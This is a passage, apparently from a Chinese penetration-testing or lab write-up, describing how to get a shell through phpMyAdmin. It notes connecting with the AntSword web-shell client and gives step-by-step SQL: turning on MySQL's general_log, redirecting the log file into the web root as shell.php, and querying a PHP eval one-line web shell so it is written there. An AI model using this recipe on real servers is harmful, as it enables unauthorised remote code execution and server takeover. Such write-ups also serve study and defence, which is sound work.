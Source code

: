 直接用蚁剑连接

![image-20220525152249877](images/13.png)

## 方法二（phpmyadmin日志getshell）

之前能够登陆phpmyadmin

![image-20220525152659610](images/14.png)

但是secure_file_priv为null，不能用select into outfile直接写入

```
第一步手动开启日志。
set global  general_log='on'   //首先设置为on
第二步 修改日志路径
set global  general_log_file ="C:\\phpstudy\\www\\shell.php"
第三步 查询一句话写入日志
Select '<?php eval($_POST[1]);?>'
```
